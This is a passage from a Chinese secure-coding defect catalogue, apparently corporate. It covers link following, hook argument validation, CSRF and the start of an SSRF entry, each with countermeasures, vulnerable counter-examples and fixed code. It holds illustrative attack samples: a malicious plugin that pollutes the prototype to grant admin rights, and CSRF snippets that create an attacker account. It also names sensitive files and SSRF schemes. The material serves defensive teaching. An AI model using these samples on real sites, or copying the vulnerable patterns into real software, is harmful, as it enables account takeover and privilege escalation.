  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 文件访问前链接解析不当**
**语言: **JAVA

**描述**
在Java应用程序中，当程序需要访问文件系统时，如果没有正确处理符号链接（symbolic links），可能会导致安全风险。攻击者可以创建恶意的符号链接，使应用程序意外访问或修改敏感文件，如系统配置文件、密码文件或其他用户的私有文件。

**案例分析**
- 符号链接跟随风险：代码直接使用`File`类操作文件，会自动跟随符号链接，可能指向非预期的目标文件。
- 路径遍历风险：如果用户提供的路径包含`../`等遍历字符，可能访问到预期目录之外的文件。
- 竞态条件：在检查文件存在(`exists()`)和实际打开文件之间存在时间差，攻击者可以利用这个时间差替换文件。
- 敏感文件暴露：攻击者可以创建指向`/etc/passwd`、`/etc/shadow`或其他敏感文件的符号链接。
- 缺乏权限检查：代码没有验证当前用户是否有权访问目标文件。

**反例**
```java
import java.io.*;

public class FileProcessor {
    public static void processFile(String filePath) {
        try {
            File file = new File(filePath);
            
            // 直接检查文件是否存在并读取
            if (file.exists()) {
                BufferedReader reader = new BufferedReader(new FileReader(file));
                String line;
                while ((line = reader.readLine()) != null) {
                    Logger.info(line);
                }
                reader.close();
            } else {
                Logger.info("File does not exist: " + filePath);
            }
        } catch (IOException e) {
            // ...处理异常
        }
    }

    public static void main(String[] args) {
        // 示例使用 - 处理用户指定的文件
        if (args.length > 0) {
            processFile(args[0]);
        } else {
            Logger.info("Please provide a file path");
        }
    }
}
```

**正例**
```java
import java.io.*;
import java.nio.file.*;

public class SecureFileProcessor {
    public static void processFile(String filePath) {
        try {
            // 规范化路径并解析符号链接
            Path path = Paths.get(filePath).normalize();
            
            // 检查路径是否在允许的目录内
            Path allowedDir = Paths.get("/var/data/approved");
            if (!path.startsWith(allowedDir)) {
                throw new SecurityException("Access denied: File not in allowed directory");
            }
            
            // 检查符号链接
            if (Files.isSymbolicLink(path)) {
                throw new SecurityException("Symbolic links are not allowed");
            }
            
            // 检查文件属性
            if (!Files.isRegularFile(path)) {
                throw new SecurityException("Only regular files are allowed");
            }
            
            // 使用NIO的Files类安全读取文件
            try (BufferedReader reader = Files.newBufferedReader(path)) {
                String line;
                while ((line = reader.readLine()) != null) {
                    Logger.info(line);
                }
            }
        } catch (SecurityException e) {
            Logger.error("Security violation: " + e.getMessage());
        } catch (IOException e) {
            Logger.error("IO error: " + e.getMessage());
        }
    }

    public static void main(String[] args) {
        if (args.length > 0) {
            processFile(args[0]);
        } else {
            Logger.info("Please provide a file path");
        }
    }
}
```

**修复建议**
- 路径规范化：使用`normalize()`方法规范化路径，处理`.`和`..`等相对路径。
- 符号链接检查：明确检查并拒绝符号链接，除非业务确实需要。
- 目录限制：将文件访问限制在特定目录内，防止路径遍历攻击。
- 文件类型验证：确保只处理常规文件，而非设备文件、套接字等特殊文件。

#### CWD-1063-000 文件访问前链接解析不当（链接跟随）

#### CWD-1063-001 读取文件时未正确解析符号链接

#### CWD-1063-002 解压恶意符号链接（路径穿越）

#### CWD-1063-003 文件读取未解析真实路径（权限绕过）

#### CWD-1063-004 文件删除未检查链接（资源覆盖）

**业界缺陷**

- [CWE-59: Improper Link Resolution Before File Access ('Link Following')](https://cwe.mitre.org/data/definitions/59.html)
---

# CWD-1064 Hook函数的入参验证不当

**别名: **未验证Hook函数的入参

**描述**
产品对用户可访问的 API函数添加了 `Hook`，但未验证或不正确验证参数，这可能导致安全隐患。这类 `Hook` 技术可被用于具有高权限运行的防御性软件（如杀毒软件或防火墙）中，它劫持内核调用的（代码）。若未对参数进行有效验证，攻击者可能利用该缺陷绕过防护机制，甚至直接攻击防护软件本身。例如函数未验证其参数是否为正确类型，导致任意内存写入。

**语言: **C,CPP,JAVA,JAVASCRIPT

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确Hook函数的参数校验规范，包括参数类型、范围、必填性、边界值等。
- 策略2：采用防御性编程思想，设计默认的校验逻辑（如非空检查、类型断言、范围验证）。
- 策略3：对高风险参数（如用户输入、外部调用）设计白名单或黑名单机制。
- 策略4：使用设计模式（如装饰器模式）统一封装校验逻辑，避免重复代码。
  确保按照您正在保护的API的定义验证所有参数。
  如果可能的话，在调用此类函数之前删除权限。

**编码**
- 策略1：使用语言特性
  使用编程语言的特性（如TypeScript的类型注解、Python的typing模块）声明参数类型。
- 策略2：转义或标准化处理
  对敏感参数进行转义或标准化处理（如路径参数防`../`注入）。
- 策略3：输入校验
  在Hook函数入口处强制校验所有入参，例如：
  ```python
  def hook_function(param1, param2):
      if not isinstance(param1, str) or len(param1) == 0:
          raise ValueError("param1 must be a non-empty string")
      if param2 not in ALLOWED_VALUES:
          raise ValueError("param2 is invalid")
  ```

**开发者测试**
- 策略1：编写单元测试用例，覆盖以下场景：
  1. 正常参数、边界值（如空字符串、最大值）。
  2. 非法参数（错误类型、越界值、特殊字符）。
  3. 缺失参数（模拟未传参情况）。
  4. 使用断言验证Hook函数的报错行为（如是否抛出预期异常）。
     示例（Python的pytest）：
  ```python
  def test_hook_function_invalid_param():
      with pytest.raises(ValueError):
          hook_function("", "invalid_value")
  ```

**代码Review**
- 策略：Review重点：
  - 是否所有入参均被校验？是否有遗漏的参数？
  - 校验逻辑是否严格（如仅检查null而未检查类型）？
  - 错误提示是否清晰（避免暴露敏感信息）？

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: Hook函数的入参验证不当**
**语言: **JAVASCRIPT

**描述**
一个JavaScript应用程序中，开发者实现了一个函数钩子(hook)系统，允许插件在核心函数执行前后注入自定义逻辑。然而，由于对钩子回调函数的参数缺乏适当验证，攻击者可以通过恶意插件注入危险代码，导致任意代码执行漏洞。

**案例分析**
- 参数验证缺失：`executeHook`方法直接将所有接收到的参数传递给回调函数，没有进行任何验证或过滤。
- 原型污染风险：恶意插件可以通过传入的对象污染原型链，影响整个应用程序的行为。
- 任意代码执行：如果参数被当作函数执行(如user())，攻击者可以构造特殊参数导致任意代码执行。
- 缺乏上下文控制：钩子回调可以访问和修改原始参数，可能破坏核心功能的预期行为。
- 权限提升：如示例所示，恶意插件可以注入逻辑将普通用户提升为管理员。

**反例**
```javascript
// 核心系统中的钩子管理器
class HookManager {
  constructor() {
    this.hooks = {};
  }

  // 注册钩子
  registerHook(hookName, callback) {
    if (!this.hooks[hookName]) {
      this.hooks[hookName] = [];
    }
    this.hooks[hookName].push(callback);
  }

  // 执行钩子
  executeHook(hookName, ...args) {
    if (this.hooks[hookName]) {
      this.hooks[hookName].forEach(callback => {
        // 直接调用回调函数，没有验证参数
        callback(...args);
      });
    }
  }
}

// 示例使用 - 用户认证函数
function authenticateUser(user) {
  const hookManager = new HookManager();
  
  // 执行"pre-authenticate"钩子
  hookManager.executeHook('pre-authenticate', user);
  
  // 认证逻辑...
  console.log(`Authenticating user: ${user.username}`);
  
  // 执行"post-authenticate"钩子
  hookManager.executeHook('post-authenticate', user);
}

// 恶意插件代码
const maliciousPlugin = {
  init() {
    const hookManager = new HookManager();
    hookManager.registerHook('pre-authenticate', (user) => {
      // 恶意代码 - 利用未验证的参数
      if (user && user.constructor.prototype) {
        // 污染原型链
        user.constructor.prototype.isAdmin = true;
      }
      // 更危险的例子: 如果参数被当作函数执行
      if (typeof user === 'function') {
        user(); // 可能导致任意代码执行
      }
    });
  }
};

// 使用示例
maliciousPlugin.init();
authenticateUser({username: 'attacker'});
```

**正例**
```javascript
class HookManager {
  constructor() {
    this.hooks = {};
    this.sanitizeInput = this.sanitizeInput.bind(this);
  }

  // 注册钩子时验证回调函数
  registerHook(hookName, callback) {
    if (typeof callback !== 'function') {
      throw new Error('Hook callback must be a function');
    }
    
    if (!this.hooks[hookName]) {
      this.hooks[hookName] = [];
    }
    this.hooks[hookName].push(callback);
  }

  // 输入清理函数
  sanitizeInput(input) {
    if (input && typeof input === 'object') {
      // 创建输入对象的浅拷贝，防止原型污染
      const safeInput = {...input};
      
      // 移除可能危险的属性
      delete safeInput.__proto__;
      delete safeInput.constructor;
      
      return safeInput;
    }
    return input;
  }

  // 安全的钩子执行
  executeHook(hookName, ...args) {
    if (this.hooks[hookName]) {
      // 清理所有输入参数
      const safeArgs = args.map(this.sanitizeInput);
      
      this.hooks[hookName].forEach(callback => {
        try {
          // 使用apply调用，防止直接将参数作为函数执行
          callback.apply(null, safeArgs);
        } catch (error) {
          console.error(`Error executing hook ${hookName}:`, error);
        }
      });
    }
  }
}

// 安全的使用示例
function authenticateUser(user) {
  const hookManager = new HookManager();
  
  // 只传递必要的、经过验证的数据
  const safeUserData = {
    username: user.username,
    id: user.id
  };
  
  hookManager.executeHook('pre-authenticate', safeUserData);
  
  // 认证逻辑...
  console.log(`Authenticating user: ${user.username}`);
  
  hookManager.executeHook('post-authenticate', safeUserData);
}
```

**修复建议**
- 输入验证：添加了对回调函数类型的验证，确保只有函数可以被注册为钩子。
- 参数清理：实现了`sanitizeInput`方法，创建参数的浅拷贝并移除危险属性。
- 安全调用：使用`apply`调用回调函数，而不是直接传递参数。
- 最小数据暴露：只传递必要的、经过清理的数据给钩子回调。

#### CWD-1064-000 Hook函数的入参验证不当

#### CWD-1064-001 输入未做校验时，直接对输入进行处理可能会导致空指针、注入攻击、数据格式错误等问题

#### CWD-1064-002 钩子函数接收外部参数后直接拼接系统命令，未进行安全过滤

#### CWD-1064-003 钩子函数执行特权操作时未验证调用者身份

#### CWD-1064-004 钩子函数直接反序列化未经验证的输入数据

#### CWD-1064-005 读取文件时未解析符号链接的真实路径

**业界缺陷**

- [CWE-622: Improper Validation of Function Hook Arguments](https://cwe.mitre.org/data/definitions/622.html)
---

# CWD-1065 跨站请求伪造（CSRF）

**别名: **会话制导；跨站点引用伪造；XSRF

**描述**
Web应用程序未能验证或未能充分验证请求是否是由发送请求的用户故意提供的，而发送请求的用户可能来自未授权的参与者，攻击者通过诱导用户点击一个链接或者访问一个恶意网站，从而在用户不知情的情况下，以用户的身份向目标网站发送请求，执行一些操作，比如转账、修改密码等。这种攻击利用了用户的认证状态，比如cookie，来执行恶意操作。因此针对状态不断变化的 HTTP 请求必须包含用户特有的密码，以防止攻击者发出未经授权的请求。跨站请求伪造（CSRF）漏洞会在以下情况下发生：


1. Web 应用程序使用会话 Cookie。2. 应用程序未验证请求是否经过用户同意便处理 HTTP 请求。

- 由于该应用程序无法确定请求的来源，才有可能受到 CSRF 攻击。任何请求都有可能是用户选定的合法操作，也有可能是攻击者设置的伪操作。攻击者无法查看伪请求生成的网页，因此，这种攻击技术仅适用于篡改应用程序状态的请求。- 如果受害者是管理员或特权用户，其后果可能包括获得对Web应用程序的完全控制-删除或窃取数据，卸载产品，或使用它对产品的所有用户发起其他攻击。由于攻击者具有受害者的身份，因此CSRF的范围仅受受害者的权限限制。- 如果应用程序通过 URL 传递会话标识符（而不是 Cookie），则不会出现 CSRF 问题，因为攻击者无法访问会话标识符，也无法在伪请求中包含会话标识符。- 部分框架会自动将 CSRF 随机数 包含在其中，以保护应用程序的安全。禁用此功能会将应用程序置于风险之中。
**语言: **JAVA,JAVASCRIPT,TYPESCRIPT

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：库或框架
  使用经过审核的库或框架，不允许这种弱点发生，或者提供更容易避免这种弱点的构造。
  - 示例1：使用OWASP CSRFGuard等防CSRF包。
  - 示例2：ESAPI会话管理控件，它包括一个CSRF组件。
- 策略2：随机数验证
  为每个表单生成一个唯一的随机数，将随机数放入表单中，并在收到表单时验证随机数。请确保随机数是不可预测的。
  1. 生成一个不可预测的随机数。
  2. 将随机数嵌入到表单中，通常是隐藏字段。
  3. 在服务器端接收表单时，提取随机数并进行验证。
  4. 确保随机数在有效期内，并且未被重复使用。
  5. 处理验证通过或失败的情况。
  - 备注：此策略可能会被XSS绕过（CWD-1073）。
- 策略3：危险操作单独确认请求
  识别特别危险的操作。当用户执行危险操作时，发送单独的确认请求，以确保用户打算执行该操作。
  - 备注：此策略可能会被XSS绕过（CWD-1073）。
- 策略4：使用“双提交cookie”方法
  1. 当用户访问一个站点时，该站点应该生成一个伪随机值，并将其设置为用户机器上的cookie。站点应该要求每个表单提交都将此值作为表单值和cookie值包含在内。当POST请求被发送到站点时，只有当表单值和cookie值相同时，该请求才被认为是有效的。
  2. 由于同源策略，攻击者无法读取或修改存储在cookie中的值。要代表用户成功提交表单，攻击者必须正确猜测伪随机值。如果伪随机值是加密强的，这将是非常困难的。
  3. 此技术需要Javascript，因此它可能不适用于禁用Javascript的浏览器。
  - 备注：此策略可能会被XSS绕过（CWD-1073）。或者在使用Web技术时，攻击者可以从HTTP请求中读取原始标头。
- 策略5：对状态更改请求禁用GET方法
  不要对任何触发状态更改的请求使用GET方法。

**编码**
- 策略1：确保无XSS注入问题
  确保应用程序没有跨站点脚本问题（XSS注入：CWD-1073），因为大多数CSRF防御都可以通过攻击者控制的脚本绕过。
- 策略2：检查Referer确保来源合法
  检查HTTP Referer标头查看请求是否源自预期页面。这可能会破坏合法的功能，因为用户或代理可能出于隐私原因禁用了发送Referer。
  - 备注：此策略可能会被XSS绕过（CWD-1073）。攻击者可以使用XSS生成欺骗的Referer，或者从允许Referer的页面生成恶意请求。

**开发者测试**
- 策略1：单元测试
  测试各种输入情况，特别是边界条件和异常输入测试代码的健壮性。
- 策略2：场景测试
  测试不同请求类型（GET、POST）和输入点，确保全面覆盖。

**代码Review**
- 策略1：代码走读
  有经验的开发人员检查相关代码，确保代码安全。
- 策略2：输入验证检查
  确保所有外部输入都经过严格的验证和转义，防止恶意输入。
- 策略3：安全框架使用检查
  确保安全框架正确使用，没有误用导致漏洞

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  有效性：有限
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  有效性：高
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：人工分析 `推荐`
  有效性：高
  可以使用需要手动（人工）分析的工具和技术来检测这种弱点，例如渗透测试、威胁建模以及允许测试人员记录和修改活动会话的交互式工具。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: HTTP请求使用用户特有密码防CSRF攻击**
**语言: **JAVA

**描述**
状态不断变化的 HTTP 请求必须包含用户特有的密码，以防止攻击者发出未经授权的请求。

**案例分析**
攻击者可以设置一个包含以下代码的恶意网站：
```java
RequestBuilder rb = new RequestBuilder(RequestBuilder.POST, "http://www.example.com/new_user");
body = addToPost(body, "attacker";
body = addToPost(body, "haha");
rb.sendRequest(body, new NewAccountCallback(callback));
```
- 如果 `example.com` 的管理员在网站上具有活动会话时访问了恶意页面，则他们会在毫不知情的情况下为攻击者创建一个帐户。这就是 CSRF 攻击。正是由于该应用程序无法确定请求的来源，才有可能受到 CSRF 攻击。任何请求都有可能是用户选定的合法操作，也有可能是攻击者设置的伪操作。攻击者无法查看伪请求生成的网页，因此，这种攻击技术仅适用于篡改应用程序状态的请求。
- 如果应用程序通过 URL 传递会话标识符（而不是 Cookie），则不会出现 CSRF 问题，因为攻击者无法访问会话标识符，也无法在伪请求中包含会话标识符。
- 部分框架会自动将 CSRF 随机数包含在其中，以保护应用程序的安全。禁用此功能会将应用程序置于风险之中。

**反例**
```java
RequestBuilder rb = new RequestBuilder(RequestBuilder.POST, "/new_user");
body = addToPost(body, new_username);
body = addToPost(body, new_passwd);
rb.sendRequest(body, new NewAccountCallback(callback));
```

**正例**
```java
// 生成CSRF令牌并存储在会话中
String csrfToken = UUID.randomUUID().toString();
session.setAttribute("csrfToken", csrfToken);

// 在客户端获取CSRF令牌并添加到请求体中
RequestBuilder rb = new RequestBuilder(RequestBuilder.POST, "/new_user");
String body = addToPost("", new_username);
body = addToPost(body, new_passwd);
body = addToPost(body, "csrf_token", csrfToken);

// 发送请求
rb.sendRequest(body, new NewAccountCallback(callback));

// 在服务器端验证CSRF令牌
public void doPost(HttpServletRequest request, HttpServletResponse response) {
    String providedToken = request.getParameter("csrf_token");
    String sessionToken = (String) request.getSession().getAttribute("csrfToken");
    
    if (providedToken == null || !providedToken.equals(sessionToken)) {
        // 拒绝请求，返回错误信息
        response.setStatus(HttpServletResponse.SC_FORBIDDEN);
        return;
    }
    
    // 处理请求
}
```

**修复建议**
- 生成CSRF令牌：在用户登录时，服务器使用 `UUID.randomUUID().toString()` 生成一个唯一的随机令牌，并将其存储在用户的会话中。
- 添加令牌到请求体：在客户端发送敏感请求时，将CSRF令牌作为参数`csrf_token`添加到请求体中。
- 验证令牌：在服务器端的`doPost`方法中，获取请求中的`csrf_token`和会话中的令牌进行比较，如果不匹配则拒绝请求。

**案例2: HTTP请求使用用户特有密码防CSRF攻击**
**语言: **JAVASCRIPT

**描述**
HTTP 请求必须包含用户特定的密码，以防止攻击者发出未经授权的请求。

**案例分析**
随机数是加密随机值，随消息发送，以防止转发攻击。如果请求中不包含证明其来源的随机数，则用来处理该请求的代码容易受到 CSRF 攻击（除非请求不改变应用程序的状态）。这意味着使用会话 Cookie 的 Web 应用程序必须采取特殊的预防措施，以确保攻击者无法诱骗用户提交虚假请求。某个 Web 应用程序允许管理员新建帐户。攻击者可以设置一个包含以下代码的恶意网站。
```js
var req = new XMLHttpRequest();
req.open("POST", "http://www.example.com/new_user", true);
body = addToPost(body, "attacker");
body = addToPost(body, "haha");
req.send(body);
```
- 如果 `example.com` 的管理员在网站上具有活动会话时访问了恶意页面，则会在毫不知情的情况下为攻击者创建一个帐户。这就是 CSRF 攻击。正是由于该应用程序无法确定请求的来源，才有可能受到 CSRF 攻击。任何请求都有可能是用户选定的合法操作，也有可能是攻击者设置的伪操作。攻击者无法查看伪请求生成的网页，因此，这种攻击技术仅适用于篡改应用程序状态的请求。
- 如果应用程序通过 URL 传递会话标识符（而不是 cookie），则不会出现 CSRF 问题，因为攻击者无法访问会话标识符，也无法在伪请求中包含会话标识符。

**反例**
```js
var req = new XMLHttpRequest();
req.open("POST", "/new_user", true);
body = addToPost(body, new_username);
body = addToPost(body, new_passwd);
req.send(body);
```

**正例**
```js
var req = new XMLHttpRequest();
req.open("POST", "/new_user", true);

// 假设csrfToken是服务器生成的令牌，并嵌入到页面中
var body = addToPost(body, new_username);
body = addToPost(body, new_passwd);
body = addToPost(body, csrfToken); // 添加CSRF令牌到请求体

req.send(body);
```

**修复建议**
- 生成CSRF令牌：在服务器端生成一个唯一的、不可预测的令牌，并将其嵌入到页面中，例如通过一个隐藏的input字段或JavaScript变量。
- 添加令牌到请求：在发送POST请求时，将CSRF令牌添加到请求体中。
- 服务器端验证：在处理请求时，检查请求中是否包含有效的CSRF令牌，并与服务器端存储的令牌进行匹配，如果不匹配则拒绝请求。

**案例3: HTTP请求使用用户特有密码防CSRF攻击**
**语言: **TYPESCRIPT

**描述**
HTTP 请求必须包含用户特定的密码，以防止攻击者发出未经授权的请求。

**案例分析**
随机数是加密随机值，随消息发送，以防止转发攻击。如果请求中不包含证明其来源的随机数，则用来处理该请求的代码容易受到 CSRF 攻击（除非请求不改变应用程序的状态）。这意味着使用会话 Cookie 的 Web 应用程序必须采取特殊的预防措施，以确保攻击者无法诱骗用户提交虚假请求。某个 Web 应用程序允许管理员新建帐户。攻击者可以设置一个包含以下代码的恶意网站。
```ts
var req = new XMLHttpRequest();
req.open("POST", "http://www.example.com/new_user", true);
body = addToPost(body, "attacker");
body = addToPost(body, "haha");
req.send(body);
```
- 如果 `example.com` 的管理员在网站上具有活动会话时访问了恶意页面，则会在毫不知情的情况下为攻击者创建一个帐户。这就是 CSRF 攻击。正是由于该应用程序无法确定请求的来源，才有可能受到 CSRF 攻击。任何请求都有可能是用户选定的合法操作，也有可能是攻击者设置的伪操作。攻击者无法查看伪请求生成的网页，因此，这种攻击技术仅适用于篡改应用程序状态的请求。
- 如果应用程序通过 URL 传递会话标识符（而不是 cookie），则不会出现 CSRF 问题，因为攻击者无法访问会话标识符，也无法在伪请求中包含会话标识符。

**反例**
```ts
var req = new XMLHttpRequest();
req.open("POST", "/new_user", true);
body = addToPost(body, new_username);
body = addToPost(body, new_passwd);
req.send(body);
```

**正例**
```ts
var req = new XMLHttpRequest();
req.open("POST", "/new_user", true);

// 假设csrfToken是服务器生成的令牌，并嵌入到页面中
var body = addToPost(body, new_username);
body = addToPost(body, new_passwd);
body = addToPost(body, csrfToken); // 添加CSRF令牌到请求体

req.send(body);
```

**修复建议**
- 生成CSRF令牌：在服务器端生成一个唯一的、不可预测的令牌，并将其嵌入到页面中，例如通过一个隐藏的input字段或JavaScript变量。
- 添加令牌到请求：在发送POST请求时，将CSRF令牌添加到请求体中。
- 服务器端验证：在处理请求时，检查请求中是否包含有效的CSRF令牌，并与服务器端存储的令牌进行匹配，如果不匹配则拒绝请求。

#### CWD-1065-000 跨站请求伪造（CSRF）

#### CWD-1065-001 Spring Security中禁用CSRF保护

#### CWD-1065-002 使用GET请求执行状态变更操作

#### CWD-1065-003 仅通过Referer头验证请求来源

#### CWD-1065-004 CSRF令牌未与用户会话绑定

#### CWD-1065-005 doGet方法中直接调用非查询类方法，存在CSRF攻击的风险

#### CWD-1065-006 doPost方法中直接调用doGet方法，doGet方法存在非查询类操作，通过doGet方法进行CSRF攻击

#### CWD-1065-007 USecurity安全框架通过web.xml将X-Frame-Options的值为ALLOW-FROM，ALLOW-FROM在Chrome和Safari中不支持，存在风险

#### CWD-1065-008 Huawei WSF安全框架通过hwsf-security.xml配置文件中frame-options元素属性的disable属性关闭了点击劫持头的加固

#### CWD-1065-009 Huawei WSF安全框架通过web.xml将X-Frame-Options的值设置为ALLOW-FROM

#### CWD-1065-010 Tomcat通过FilterRegistrationBean<HttpHeaderSecurityFilter>过滤器关闭了X-Frame-Options头加固

#### CWD-1065-011 Tomcat通过web.xml配置过滤器时关闭了X-Frame-Options头加固

#### CWD-1065-012 Huawei WSF安全框架通过FilterRegistrationBean<HeaderWriterFilter>过滤器设置X-Frame-Options的值为ALLOW-FROM

#### CWD-1065-013 nginx.conf配置文件中add_header配置项将X-Frame-Options的值设置为ALLOW-FROM

#### CWD-1065-014 Spring Security框架通过HttpSecurity类关闭了frameOptions头加固，存在点击劫持风险

#### CWD-1065-015 通过setHeader/addHeader方式单独为请求设置控制响应头的X-Frame-Options

#### CWD-1065-016 USecurity安全框架通过FilterRegistrationBean<UsHeaderWriterFilter>过滤器设置X-Frame-Options的值为ALLOW-FROM

#### CWD-1065-017 Tomcat通过HttpSecurity类设置X-Frame-Options的header加固项值为ALLOW-FROM

#### CWD-1065-018 Huawei WSF安全框架通过hwsf-security.xml配置文件将frame-options元素的policy属性设置为ALLOW-FROM

#### CWD-1065-019 Tomcat通过HttpSecurity类设置X-Frame-Options的header加固项值为ALLOW-FROM

#### CWD-1065-020 servlet框架通过setHeader/addHeader配置X-Frame-Options值为ALLOW-FROM

**业界缺陷**

- [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)
---

# CWD-1066 服务器请求伪造（SSRF）

**别名: **跨站端口攻击（XSPA）

**描述**
Web服务器从上游组件接收URL或类似请求，并检索此URL的内容，但它不能充分确保请求被发送到预期的目的地。当攻击者可以影响应用程序服务器建立的网络连接时，将会发生服务器请求伪造（SSRF）。




1. 网络连接源自于应用程序服务器内部 IP，因此攻击者将可以使用此连接来避开网络控制，并扫描或攻击没有以其他方式暴露的内部资源。2. 通过向意外主机或端口提供URL，攻击者可以使服务器看起来正在发送请求，可能绕过阻止，攻击者直接访问URL的防火墙等访问控制。服务器可以用作代理来对内部网络中的主机进行端口扫描，使用其他URL，如可以访问系统上的文档（使用文件：//），或者使用其他协议，如gopher://或tftp://，这可以提供对请求内容的更好控制。3. 攻击者能否劫持网络连接取决于他可以控制的 URI 的特定部分以及用于建立连接的库。例如，控制 URI 方案将使攻击者可以使用不同于 `http` 或 `https` 的协议，类似于：`up://`、`ldap://`、`jar://`、`gopher://`、`mailto://`、`ssh2://`、`telnet://`、`expect://`4. 攻击者将可以利用劫持的此网络连接执行下列攻击：
  - 对内联网资源进行端口扫描。  - 避开防火墙。  - 攻击运行于应用程序服务器或内联网上易受攻击的程序。  - 使用 Injection 攻击或 CSRF 攻击内部/外部 Web 应用程序。  - 使用 file:// 方案访问本地文件。  - 在 Windows 系统上，file:// 方案和 UNC 路径可以允许攻击者扫描和访问内部共享。  - 执行 DNS 缓存中毒攻击。
**语言: **JAVA,JAVASCRIPT,TYPESCRIPT

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：限制外部请求来源
  仅允许来自可信的IP地址或域名的请求，防止来自不可信来源的请求。
- 策略2：严格验证请求参数
  确保所有外部请求的参数经过严格的验证和过滤，避免包含恶意内容。
- 策略3：使用安全的API
  采用经过验证的安全API来处理外部请求，避免直接拼接用户输入，减少潜在漏洞。

**编码**
- 策略1：输入验证和过滤
  对所有用户输入进行严格的验证和过滤，确保输入符合预期格式，防止注入攻击。
- 策略2：参数化查询
  使用参数化查询而非字符串拼接，避免SQL注入等攻击。
- 策略3：设置超时时间
  为外部请求设置合理的超时时间，防止长时间等待影响服务器性能。

**开发者测试**
- 策略1：单元测试
  编写单元测试，确保输入验证逻辑正确，覆盖各种可能的输入情况。
- 策略2：场景测试
  测试合法和非法请求，确保系统在各种情况下都能正确处理。

**代码Review**
- 策略1：代码走读
  团队成员检查代码，特别是处理输入和输出的部分，确保每处都经过验证和转义。
- 策略2：输入验证检查
  确保所有外部输入都经过严格的验证和转义，防止恶意输入。
- 策略3：检查不安全API
  确保代码中没有使用可能导致SSRF的不安全API或函数。
- 策略4：第三方库审查
  检查使用的第三方库，确保它们没有已知的XSS漏洞。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
